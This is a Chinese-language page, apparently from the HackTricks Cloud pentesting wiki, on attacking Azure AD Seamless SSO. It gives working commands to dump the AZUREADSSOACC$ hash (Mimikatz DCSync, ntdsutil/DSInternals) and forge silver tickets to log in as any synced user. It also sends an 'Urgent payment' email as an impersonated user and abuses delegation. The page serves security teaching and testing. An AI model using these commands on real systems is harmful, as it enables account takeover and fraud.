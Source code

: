 # Az - Seamless SSO

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## 基本信息

[来自文档:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) 自动**在用户使用公司设备连接到公司网络时登录**。启用后，**用户无需输入密码即可登录 Azure AD**，通常甚至无需输入用户名。此功能为用户提供了轻松访问基于云的应用程序的途径，无需任何额外的本地组件。

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

基本上，Azure AD Seamless SSO **在用户使用加入本地域的 PC 时自动登录**。

它同时支持 [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) 和 [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md)。

桌面 SSO 使用 **Kerberos** 进行身份验证。配置时，Azure AD Connect 会在本地 AD 中创建一个名为 **AZUREADSSOACC`$`** 的计算机账户。`AZUREADSSOACC$` 账户的密码在配置期间**以明文形式发送到 Azure AD**。

**Kerberos 票据**使用密码的 **NTHash (MD4)** 进行**加密**，Azure AD 使用发送的密码解密票据。

**Azure AD** 暴露了一个**端点** (https://autologon.microsoftazuread-sso.com) 接受 Kerberos **票据**。域加入机器的浏览器将票据转发到此端点以进行 SSO。

### 本地 -> 云

用户 **`AZUREADSSOACC$` 的密码永远不会改变**。因此，域管理员可以破坏此账户的**哈希**，然后使用它**创建银票**，以**任何同步的本地用户**连接到 Azure:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
有了哈希值，你现在可以**生成银票**：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
要使用银票，需执行以下步骤：

1. **启动浏览器：** 启动 Mozilla Firefox。
2. **配置浏览器：**
* 进入 **`about:config`**。
* 将 [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) 的偏好设置为指定的 [值](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)：
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **访问 Web 应用程序：**
* 访问与组织的 AAD 域集成的 Web 应用程序。一个常见的例子是 [Office 365](https://portal.office.com/)。
4. **认证过程：**
* 在登录屏幕上，输入用户名，密码字段留空。
* 按 TAB 或 ENTER 继续。

{% hint style="success" %}
这不会绕过已启用的 MFA
{% endhint %}

#### ~~为仅云用户创建 Kerberos 票据~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

如果 Active Directory 管理员有权访问 Azure AD Connect，他们可以 **为任何云用户设置 SID**。这样 Kerberos **票据**也可以 **为仅云用户创建**。唯一的要求是 SID 是一个合适的 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))。

{% hint style="danger" %}
更改仅云管理员用户的 SID 现在已被 **Microsoft 阻止**。\
详情请查看 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud via Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

任何可以管理容器或 OU 中计算机帐户 (`AZUREADSSOACC$`) 的人，都可以 **配置基于资源的约束委派并访问该帐户**。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: 我在你的云中，阅读每个人的邮件 - 通过Active Directory攻击Azure AD](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
学习和练习AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交PR分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库。

</details>
{% endhint %}
